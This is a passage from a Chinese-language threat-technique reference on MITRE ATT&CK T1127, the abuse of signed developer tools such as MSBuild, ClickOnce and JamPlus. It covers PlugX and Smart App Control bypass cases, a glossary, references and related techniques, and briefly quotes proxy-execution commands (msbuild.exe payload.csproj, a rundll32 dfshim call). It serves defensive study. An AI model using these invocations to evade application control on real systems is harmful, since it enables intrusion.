- **手法**：PlugX 的某个变种将自身 Shellcode 嵌入到一个 .NET Framework 项目文件中，通过 MSBuild.exe 加载执行。这种部署方式被攻击者明确选择以绕过应用控制方案——许多企业部署 AppLocker 阻止未签名 exe 运行，但允许 MSBuild.exe（微软签名）执行。攻击者只需将 PlugX Shellcode 包装在 `.csproj` 项目文件的内联任务中，调用 `msbuild.exe payload.csproj` 即可完成无文件落地加载。
- **影响**：多个国家与组织被长期渗透，PlugX 至今仍是亚太地区最活跃的 RAT 之一
- **参考链接**：[MITRE - PlugX S0013](https://attack.mitre.org/software/S0013/)、[Palo Alto Unit 42 - Paranoid PlugX](https://researchcenter.paloaltonetworks.com/2017/06/unit42-paranoid-plugx/)

### 案例4：Elastic 安全实验室揭露 Smart App Control 绕过（2024）

- **时间**：2024 年 8 月
- **目标**：Windows 11 终端用户（研究性质，非特定攻击活动）
- **攻击组织**：Elastic 安全实验室研究团队（防御研究）
- **手法**：Elastic 安全实验室在《Dismantling Smart App Control》研究报告中系统性揭露了 Smart App Control 的"信誉劫持"绕过方式。研究表明，Smart App Control 虽然能阻断未签名的可疑可执行文件，但对被签名（包括微软签名、EV 签名）的开发者工具（如 MSBuild.exe、ClickOnce dfsvc.exe、JamPlus.exe）默认放行。攻击者可以利用这些被信任的工具代理执行任意代码，完全绕过 Smart App Control 的防护。该研究直接促成了 MITRE ATT&CK v19 在 T1127 下新增 T1127.003 JamPlus 子技术（2025 年 3 月创建）。
- **影响**：推动 Smart App Control 防御策略改进，促成 ATT&CK 框架更新
- **参考链接**：[Elastic - Dismantling Smart App Control](https://www.elastic.co/security-labs/dismantling-smart-app-control)、[Cyble - JamPlus SAC Bypass](https://cyble.com/blog/reputation-hijacking-with-jamplus-a-maneuver-to-bypass-smart-app-control-sac/)

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 受信任的开发者实用程序 | Trusted Developer Utilities | 系统预装、被数字签名、用于软件开发任务的工具（如 MSBuild、ClickOnce） |
| 代理执行 | Proxy Execution | 通过合法进程间接执行恶意代码，让恶意代码继承合法进程的权限与信任状态 |
| 信誉劫持 | Reputation Hijacking | 利用系统对签名应用的信任，滥用其合法代码执行能力绕过应用控制 |
| MSBuild | Microsoft Build Engine | 微软构建平台，处理 XML 项目文件并编译 .NET 应用 |
| 内联任务 | Inline Task | MSBuild 的特性，允许在项目文件中嵌入 C# / VB 代码并自动编译执行 |
| ClickOnce | ClickOnce | .NET 自更新部署技术，通过 dfsvc.exe 安装与启动应用 |
| .appref-ms | Application Reference File | ClickOnce 应用快捷方式文件，启动时触发 ClickOnce 部署 |
| dfsvc.exe | Deployment Service | ClickOnce 部署服务进程，负责安装、启动、更新 ClickOnce 应用 |
| JamPlus | JamPlus | 开源的代码与数据构建系统工具，可执行 .jam 脚本 |
| Smart App Control | Smart App Control | Windows 11 引入的应用控制方案，基于微软云端信誉判断应用安全性 |
| WDAC | Windows Defender Application Control | 微软基于内核的应用控制方案，基于策略文件允许或拒绝应用执行 |
| AppLocker | AppLocker | Windows 的应用控制功能，基于规则限制可执行文件、脚本、安装包运行 |
| LOLBins | Living Off The Land Binaries | "生活在陆地上的二进制文件"——被攻击者滥用的系统自带合法工具 |
| 行为链检测 | Behavior-Chain Detection | 通过串联多个相关行为事件进行检测的方法，弥补单事件检测的不足 |

## 参考资料

### 官方文档（深入了解）

- [MITRE ATT&CK - T1127 Trusted Developer Utilities Proxy Execution](https://attack.mitre.org/techniques/T1127/)
- [MITRE ATT&CK - TA0005 Stealth](https://attack.mitre.org/tactics/TA0005/)
- [MITRE ATT&CK - TA0002 Execution](https://attack.mitre.org/tactics/TA0002/)
- [MITRE ATT&CK - DET0172 Detection Strategy](https://attack.mitre.org/detectionstrategies/DET0172)

### 安全报告（真实攻击）

- [Talos - Frankenstein Campaign](https://blog.talosintelligence.com/2019/06/frankenstein-campaign.html) - Frankenstein 攻击活动深度分析
- [ESET - Operation AkaiRyū](https://www.welivesecurity.com/en/eset-research/operation-akairyu-mirrorface-invites-europe-expo-2025-revives-anel-backdoor/) - MirrorFace 攻击日本与欧洲组织
- [JPCERT - MirrorFace Attack against Japanese Organisations](https://blogs.jpcert.or.jp/en/2024/07/mirrorface-attack-against-japanese-organisations.html) - MirrorFace 早期活动分析
- [Palo Alto Unit 42 - Paranoid PlugX](https://researchcenter.paloaltonetworks.com/2017/06/unit42-paranoid-plugx/) - PlugX 通过 MSBuild 加载
- [Elastic - Dismantling Smart App Control](https://www.elastic.co/security-labs/dismantling-smart-app-control) - Smart App Control 绕过研究
- [Cyble - JamPlus SAC Bypass](https://cyble.com/blog/reputation-hijacking-with-jamplus-a-maneuver-to-bypass-smart-app-control-sac/) - JamPlus 滥用绕过 Smart App Control

### 工具与资源（动手试试）

- [LOLBAS - MSBuild.exe](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/) - MSBuild 滥用方式参考
- [LOLBAS - Dfsvc.exe](https://lolbas-project.github.io/lolbas/Binaries/Dfsvc/) - ClickOnce 部署服务滥用方式
- [Microsoft Learn - MSBuild Inline Tasks](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-inline-tasks) - 内联任务官方文档
- [Microsoft Learn - ClickOnce Security and Deployment](https://learn.microsoft.com/en-us/visualstudio/deployment/clickonce-security-and-deployment) - ClickOnce 部署官方文档
- [JamPlus Quick Start Guide](https://jamplus.github.io/jamplus/quick_start.html) - JamPlus 官方快速入门
- [Microsoft Recommended Block Rules](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules) - WDAC 推荐阻断规则（含 MSBuild）
- [Atomic Red Team](https://atomicredteam.io/) - 可执行的检测测试用例

## 相关技术

- **[T1218 系统二进制代理执行](./T1218-System-Binary-Proxy-Execution.md)**：与本技术高度同源——T1218 滥用系统自带二进制（rundll32、regsvr32、wmic 等）代理执行，T1127 专注滥用开发者工具，两者共同构成 LOLBins 滥用生态
- **[T1202 间接命令执行](./T1202-Indirect-Command-Execution.md)**：通过解释器、脚本宿主等间接执行命令，与 T1127 形成"间接执行"互补——前者强调命令间接化，后者强调代理进程可信化
- **[T1027 混淆文件或信息](./T1027-Obfuscated-Files-or-Information.md)**：开发者工具的项目文件常配合混淆技术隐藏恶意载荷，例如 Base64 编码的内联任务、加密的 .jam 脚本
- **[T1547.001 注册表运行键 / 启动文件夹](../05-Persistence/T1547-Boot-or-Logon-Autostart-Execution.md)**：ClickOnce 滥用常与启动文件夹持久化结合，将 `.appref-ms` 投递到启动目录实现长期驻留
- **[T1204 用户执行](../04-Execution/T1204-User-Execution.md)**：ClickOnce 钓鱼依赖用户主动点击安装弹窗，与 T1204 形成典型初始访问+执行组合
- **[T1218.011 Rundll32](./T1218/T1218.011-Rundll32.md)**：ClickOnce 可通过 `rundll32.exe dfshim.dll,ShOpenVerbApplication` 触发，与 Rundll32 代理执行存在直接关联
- **[T1055 进程注入](./T1055-Process-Injection.md)**：MSBuild 内联任务执行后，常进一步通过进程注入将 Shellcode 注入到其他合法进程，形成 T1127+T1055 攻击链
- **[T1562 削弱防御](../08-Defense-Impairment/T1685-Disable-or-Modify-Tools.md)**：在实施 T1127 前，攻击者可能先削弱 EDR / AM_SI 防御，提高代理执行成功率
